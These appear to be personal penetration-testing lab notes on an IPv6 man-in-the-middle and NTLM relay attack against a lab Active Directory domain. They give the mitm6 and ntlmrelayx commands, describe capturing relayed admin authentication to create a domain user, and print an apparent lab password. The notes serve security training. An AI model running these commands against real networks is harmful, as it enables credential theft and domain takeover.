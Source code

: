
This is one of the craziest attack that we can pull of without any access.
```
mitm6 -d marvel.local
```

Before running the above command we have to run the ntlm relay
```
ntlmrelayx.py -6 -t ldaps://192.168.17.139 -wh fakewpad.marvel.local -l lootme 
```
![[Pasted image 20240122221820.png]]
Make Sure there are no error and it should run like this

We can only run mitm6 in small sprints (i.e. 5-10 minutes) otherwise it will create shortages and to trigger the event will simply reboot the machine and than the relay effect will come into play and will get the hashes dump

So let's simulate that on the network:
As the mitm6 get started Ip address will get started to get assigned here.
So with that we are becoming MITM6 for these servers here.
![[Pasted image 20240227202743.png]]

When an event occurs on the network and that could be as simple as reboot of a machine (i.e. somebody logging into a machine) and than relay it using ntlm relay to the domain controller.

After an admin login's we get a lootdir
![[Pasted image 20240227204206.png]]

When we reboot we get this successful authentication
![[Pasted image 20240227204802.png]]

Login as admin

![[Pasted image 20240227205620.png]]
![[Pasted image 20240227205648.png]]

So lets check if the user has been created or not ?_?
Tools -> Active Directory Users and Computers
![[Pasted image 20240227210642.png]]

```
KRTaxsWEiV
```
![[Pasted image 20240227210749.png]]


![[Pasted image 20240227210851.png]]

